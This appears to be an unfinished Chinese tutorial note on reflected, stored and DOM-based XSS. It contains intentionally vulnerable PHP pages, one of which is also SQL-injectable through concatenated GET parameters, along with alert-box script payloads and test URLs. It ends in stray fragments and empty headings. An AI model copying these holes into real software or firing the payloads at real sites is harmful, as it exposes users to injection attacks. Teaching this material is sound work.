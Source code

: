 # XSS

攻击者通过可控参数，将恶意JavaScript代码块注入HTML中，污染用户看到的页面





反射型XSS/非持久型XSS

反射型XSS通过破坏原HTML结构中的`""`与`<>`的闭合关系，从而插入恶意代码块。

> 以下面的PHP页面为例：
>
> ```php+HTML
> <!DOCTYPE html>
> <html>
> 	<body>
>         <input type="text" value="<?php echo $_GET['a']; ?>">
>     </body>
> </html>
> ```
>
> 其中`$_GET['a']`参数完全可控，考虑插入一段弹窗JavaScript代码：
>
> ```php+HTML
> <!-- ?a="><script>alert("XSS Hacked");</script><input type="hidden 
> 	经过URL转码得到?a=%22%3E%3Cscript%3Ealert(%22XSS%20Hacked%22);%3C/script%3E%3Cinput%20type=%22hidden
> -->
> 
> <!DOCTYPE html>
> <html>
> 	<body>
>         <input type="text" value="
>             "><script>alert("XSS Hacked");</script><input type="hidden
>         ">
>     </body>
> </html>
> ```





存储型XSS/持久型XSS

存储型XSS在反射型XSS的基础上，将恶意payload保存到数据库中。

> 以下面的站点为例：
>
> 首先创建数据库：
>
> ```sql
> CREATE DATABASE xss;
> use xss;
> CREATE TABLE users(
>     id int(5) NOT NULL,
>     name varchar(128) DEFAULT '',
>     PRIMARY KEY (id)
> );
> ```
>
> 创建登录、注册与欢迎页面：
>
> ```php+HTML
> <!DOCTYPE html>
> <meta charset="utf-8">
> <html>
> 	<body>
>     <?php
>         $connection = mysqli_connect("localhost","root","root","xss",3306);
>         mysqli_select_db($connection,'xss');
>         if(mysqli_connect_errno($connection)) {
>             echo "连接失败" . mysqli_connect_error();
>             exit();
>         }
>         if(isset($_GET['id'])&&isset($_GET['name'])){
>             $sql = "INSERT INTO users(id,name) values(".$_GET['id'].",'".$_GET['name']."')";
>             mysqli_query($connection,$sql);
>             mysqli_errno($connection) ? print($connection->error) : print("SQL语句执行成功！") ;
>             echo "注册成功";
>         }elseif(isset($_GET['id'])) {
>             $sql = "select * from users where id=".$_GET['id'];
>             $result = mysqli_query($connection,$sql);
>             mysqli_errno($connection) ? print($connection->error) : print("SQL语句执行成功！") ;
>             if($row = mysqli_fetch_array($result)){
>                 echo "欢迎您,".$row['name'];
>             }else{
>                 echo "用户不存在，请重新检查id是否存在";
>             }
>         }else{
>             echo "你还没有登录，可以通过GET传参id登录，或者通过GET传参id和name注册";
>         }
>     ?>
>     </body>
> </html>
> ```
>
> 测试网站是否运行正常：
>
> ```
> localhost/index.php 
> 	// 你还没有登录，可以通过GET传参id登录，或者通过GET传参idi和name注册
> localhost/index.php?id=0 
> 	// SQL语句执行成功！用户不存在，请重新检查id是否存在
> localhost/index.php?id=0&name=hello 
> 	// SQL语句执行成功！注册成功
> localhost/index.php?id=0 
> 	// SQL语句执行成功！欢迎您,hello
> ```
>
> 尝试注入存储型XSS：
>
> ```
> localhost/index.php?id=1 
> 	// SQL语句执行成功！用户不存在，请重新检查id是否存在
> localhost/index.php?id=1&name=<script>alert("XSS hacked");</script> 
> 	// SQL语句执行成功！注册成功
> localhost/index.php?id=1
> 	// 弹窗，XSS hacked
> ```







DOM型XSS

DOM型XSS将恶意代码放在DOM的属性参数中，当其作为DOM元素被前端所`Document.createElement()`时被执行。

> u
>
> ```php+HTML
> <!DOCTYPE html>
> <meta charset="utf-8">
> <html>
> 	<body>
>     <?php
>         $a = @$_GET['a'];
>     ?>
>     <input id="a" type="text" value="<?php echo $a; ?>">
>     <script>
>         let test = document.getElementById("a");
>         let display = document.createElement("display");
>         display.innerHTML = test.value;
>     </script>
>     </body>
> </html>
> ```



DVWA的DOM题解



蝉知门户系统（chanzhiEPS）三次URL编码XXS漏洞

蝉知门户系统是



